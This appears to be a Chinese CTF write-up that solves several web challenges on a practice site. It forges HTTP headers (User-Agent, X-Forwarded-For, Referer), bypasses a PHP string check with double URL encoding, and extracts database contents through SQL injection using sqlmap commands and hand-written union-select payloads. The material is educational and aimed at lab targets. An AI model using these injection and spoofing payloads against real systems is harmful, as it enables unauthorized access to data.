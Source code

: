 ## 猫抓老鼠

检查请求头,发现 `content-row: MTU0Nzk5MTA1OQ==`
输入得到Flag: `KEY: #WWWnsf0cus_NET#`

## 头有点大

根据提示,抓包
伪造.NET 浏览器 国籍
修改为
```
GET /sHeader/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1/.NET CLR 9.9; Win64; x64; rv:64.0) Gecko/20100101 IE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
GO,得到Flag: The key is:HTTpH34der

## 貌似有点难

查看代码,发现要将IP伪装为1.1.1.1
在伪造IP后响应中提示还要伪造跳转网页
抓包
伪造IP 跳转网页
修改为
```
GET /phpaudit/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Forwarded-For: 1.1.1.1 ##IP
Referer: https://www.google.com  ##跳转网页
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
得到Flag: Key is SimCTF{daima_shengji}

## PHP大法
进入链接,看见源码
```php
<?php
if(eregi("hackerDJ",$_GET[id])) { #比较id和字符,如果相等返回true
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]); #对id进行url解密
if($_GET[id] == "hackerDJ") 如果id等于字符,得到Flag
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>


<br><br>
Can you authenticate to this website?
```
分析代码发现应对字符进行URL编码,但需要加密两次,因为浏览器会解密一次
网上的在线编码一般不会处理英文,用这个[网站](http://tool.bugku.com/safe/url.php)
GET 提交,得到 Flag: DUTCTF{PHP_is_the_best_program_language}

## 看起来有点简单!
Sql 注入题,直接用 Sqlmap 就能搞定

1. `--current-db` 发现库名为 my_db
2. `-D my_db --tables` 发现表名为 thiskey
3. `-D my_db -T thiskey --columns` 发现字段名为 k0y
4. `-D my_db -T thiskey -C k0y --dump` 得到Flag :  whatiMyD91dump

手工注入: 

1. `id=1'` 报错发现数据库类型为 MySQL 
2. `id=1 and 1=1` 与 `id=1 and 1=2` 回显不同,判断存在注入点
3. `id=1 order by 1` 3 的时候报错,说明字段数为 2
4. `id=1 union select 1,schema_name  from information_schema.schemata` 查询数据库名称发现 my_db 和 test 两个数据库
5. `id=1 union select 1,table_name from information_schema.tables where table_schema=my_db`
6. id=1%20union%20select%201,table_name%20from%20information_schema.tables%20where%20table_schema=%27my_db%27
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTkwNDE4MDEsLTE4MzMyMDgzOTIsNDMwMT
EzMjQ2LC0yNjIzNDY3NjgsNzQyNjIzOTgwLC0yOTAyNzc3NTgs
MTgwMDI2Mjc2MywtODE1ODA1ODc4LDE4NzE4ODA4MTQsNDIyOT
Y4MTMsNDEwNzg3NDY1LC0xMjE0NDU5ODA4XX0=
-->